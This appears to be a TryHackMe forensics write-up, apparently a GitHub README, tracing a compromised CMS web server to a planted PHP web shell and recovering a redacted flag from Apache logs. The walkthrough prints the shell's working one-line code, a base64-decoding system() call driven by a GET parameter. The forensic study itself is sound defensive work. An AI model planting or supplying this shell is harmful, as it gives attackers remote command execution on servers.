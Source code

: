 # thm-infinity_shell

## TryHackMe: Infinity Shell — Write-Up

**Difficulty:** Easy
**Category:** Forensics
**Time to Complete:** \~30 minutes

---

### 📘 Objective

Investigate a compromised web server to identify a malicious web shell and retrieve the flag left behind by the attacker.

---

### 💾 Target Info

* **Target IP:** `target ip`
* **Application:** Infinity Shell v0.6
* **Task:** Find the flag left behind by the attacker.

---

## 🧱️ Step-by-Step Walkthrough

### 🛡️ Step 1: Web Server Enumeration

Accessed the web server at **`target ip`**.
Found a CMS directory at:

```bash
/var/www/html/CMSsite-master
```

### 🔍 Step 2: PHP File Review

Searched for all PHP files and sorted them by modification time:

```bash
find . -type f -name "*.php" -exec ls -lh {} \; | sort -k6,7
```

Found a suspicious file:

```bash
./img/images.php
```

Size was 48 bytes and had a recent timestamp.

### 🤖 Step 3: Inspecting the Web Shell

Inspected contents:

```php
<?php system(base64_decode($_GET['query'])); ?>
```

It's a base64-decoding command execution shell.

### 📝 Step 4: Apache Log Forensics

Analyzed access logs:

```bash
cat /var/log/apache2/other_vhosts_access.log.1 | grep "images.php" -C 2
```

Found attacker payload:

```
GET /CMSsite-master/img/images.php?query=<REDACTED_BASE64>
```

Decoded it:

```bash
echo '<REDACTED_BASE64>' | base64 -d
```

Output:

```
echo '<REDACTED_FLAG>'
```

---

### 🏁 Flag

```
<REDACTED_FLAG>
```

---

## 🧐 Summary Table

| Key Detail      | Value                          |
| --------------- | ------------------------------ |
| Shell Location  | `/img/images.php`              |
| Shell Mechanism | base64-decoded `system()` call |
| Access Method   | `query` GET parameter          |
| Flag Retrieved  | `<REDACTED_FLAG>`              |

---

